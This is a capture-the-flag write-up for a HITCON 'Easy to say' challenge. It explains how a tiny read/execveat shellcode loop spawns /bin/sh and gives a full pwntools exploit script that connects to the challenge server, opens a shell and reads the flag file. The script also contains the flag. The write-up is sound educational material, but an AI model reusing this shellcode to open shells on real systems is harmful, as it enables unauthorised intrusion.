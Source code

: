 # Re: Easy to say
## Misc 255
> 30 solved

* disasm('\x75\xfa')
```asm
jne    0xfffffffffffffffc
```
* payload:
```asm
push rsp
pop rsi
xor edx,esp
syscall
jne    0xfffffffffffffffc
```
* First time read the `/bin/sh\x00` with padding to let length of it become 322 to the stack.
* After `jne` it continue at `xor edx,esp` with `rax = 322` , `rsi = /bin/sh` and cause `rdx = edx ^ esp ^ esp = 0`.
* Syscall again -> execveat( 0 , "/bin/sh" , 0 , 0 ).
```python
#!/usr/bin/env python
from pwn import *

# hitcon{sYsc4ll_is_m4g1c_in_sh31lc0d3}

context.arch = 'amd64'

host , port = '13.112.180.65' , 8361
y = remote( host , port )

sc = flat(
    0x3148ed3148fc8948,
    0x48c93148db3148c0,
    0xf63148ff3148d231,
    0x314dc9314dc0314d,
    0x4de4314ddb314dd2,
    0xff314df6314ded31,
    0x0000000000c48148
)[:-1]

#print disasm( sc )

_asm = '''
push rsp
pop rsi
xor edx,esp
syscall
'''

y.sendafter( ':' , asm( _asm ) + '\x75\xfa'  ) # jne    0xfffffffffffffffc -> jne -4

sleep(0.7)

y.send( '/bin/sh'.ljust( 322 , '\x00' ) )

sleep( 0.7 )

y.sendline( 'cat /home/`whoami`/flag' )

y.interactive()
```